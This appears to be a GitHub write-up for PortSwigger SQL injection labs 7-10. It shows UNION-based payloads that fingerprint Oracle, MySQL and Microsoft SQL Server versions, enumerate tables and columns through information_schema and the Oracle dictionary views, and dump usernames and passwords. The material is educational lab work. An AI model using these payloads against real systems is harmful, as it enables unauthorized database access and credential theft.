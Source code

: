 ## Summary
- [Lab7: SQL injection attack, querying the database type and version on Oracle](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab7-sql-injection-attack-querying-the-database-type-and-version-on-oracle)
- [Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab8-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft)
- [Lab9: SQL injection attack, listing the database contents on non-Oracle databases](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab9-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases)
- [Lab10: SQL injection attack, listing the database contents on Oracle](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab10-sql-injection-attack-listing-the-database-contents-on-oracle)

### Lab7: SQL injection attack, querying the database type and version on Oracle
> 1. **If we will test an oracle database, we must use a `dual` special table during selecting null values because it will get an error if we selected anything even if it was the right thing for a number of columns.** 
> 2. **`dual` table used for evaluating expressions or calling functions.**
- Check out: [oracle-dual-table](https://www.oracletutorial.com/oracle-basics/oracle-dual-table/)
- Check out: [docs.oracle.com/](https://docs.oracle.com/cd/B19306_01/server.102/b14200/queries009.htm)
- We will track our methodology and test in the first the number of columns used in the query of the application:

```
category=' UNION SELECT null,null from dual--
```
- After detecting there are 2 columns, We found a column that has a string data type:

```
category=' UNION SELECT 'test',null from dual--
```
- A simple proof-of-concept test is to extract the version string of the database, which can be done on any DBMS.
- This injected query will achieve that.
```
category=' UNION SELECT banner,null from v$version--
```

![lab7.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab7.png)
- There is another way to extract the version of the oracle database.

```
category=' UNION SELECT version,null from v$instance--
```

![lab7_version.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab7_version.png)

-----------------------------------------------------------------------

### Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft
> **`Note` In MySQL syntax query you must add the space after the double dash during the comment so I suggest using URL encoding to obfuscate it when you inject your payload with `--` but also you can use `#` to comment.**
 
 - Check out: [Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

- Test the number of columns for `MySQL` or `Microsoft SQL Server` database.
```
category=' UNION SELECT null,null--
category=' UNION SELECT null,null#
```
- Test which one of them is a text column and you will find the 2 columns receive a string value.
```
category=' UNION SELECT 'test','test'-- 
category=' UNION SELECT 'test','test'#
```
- Extract the version in any column of them.
```
category=' UNION SELECT @@version,null--
category=' UNION SELECT @@version,null#
```

![lab8_space.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab8_space.png)

-----------------------------------------------------------------------

### Lab9: SQL injection attack, listing the database contents on non-Oracle databases
- To extract any data from the database, we need to know two essential things:
	1. The name of the table you will return data from.
	2. The name of columns for this table which you will select.
- But how can we do that without knowing them?
	- We can use the `information_schema` database, It is designed to hold database metadata and provide information about the database.
	- It is supported by MS-SQL, MySQL, and many other databases other than `Oracle`.
	- Now we can know the names of the database tables and columns from `information_schema`.

- Here as we used to start with testing the number of columns and their data type.
```
category=' union select null,null from information_schema.tables--
category=' union select 'test','test' from information_schema.tables--
```
- We try to selects the columns from table is called `tables`.
- So in the first, we will try to extract the names of the tables for the database.

```
category=' union select table_name,null from information_schema.tables--
```

![lab9_table_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9_table_name.png)

- We will find an interesting table called `users_(random_characters)`, so now we can try to extract the name of columns from the `columns` table but we will identify the table name which we need to return its columns in the query.
```
category=' union select column_name,null from information_schema.columns where table_name='users_vlfwzh'--
```

![lab9_column_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9_column_name.png)

- The query retrieved two columns, and now the last phase is extracting the data of usernames and passwords from the `users` table.
```
category=' union select username_cluojr, password_fkpkqk from users_vlfwzh--
```

![lab9.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9.png)

-----------------------------------------------------------------------

### Lab10: SQL injection attack, listing the database contents on Oracle
- Here we will test the number of columns and their data type by using `dual` table because it is an oracle database, and if you tried to test without this table, you will get an error.

```
category=' union select null,null from dual--
category=' union select 'test','test' from dual--
```
- Oracle doesn’t support the `information_schema` but it provides `all_tables` data dictionary which we can query to list all tables in oracle.

```
category=' union select table_name,null from all_tables--
```

![lab10_table_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10_table_name.png)

- After listing all tables, we will go to list all columns in the `users_(random_characters)` table but we will use the `all_tab_columns` table to retrieve information about columns in the database.

```
category=' union select column_name,null from all_tab_columns where table_name='USERS_ZXHNHP'--
```

![lab10_column_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10_column_name.png)

- Finally, we will extract the data of usernames and passwords.

```
category=' union select USERNAME_EXOKDN, PASSWORD_YEICFS from USERS_ZXHNHP--
```

![lab10.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10.png)


![I got you](https://tenor.com/view/the-batman-penguin-i-got-you-gotcha-colin-farrell-gif-26355363)
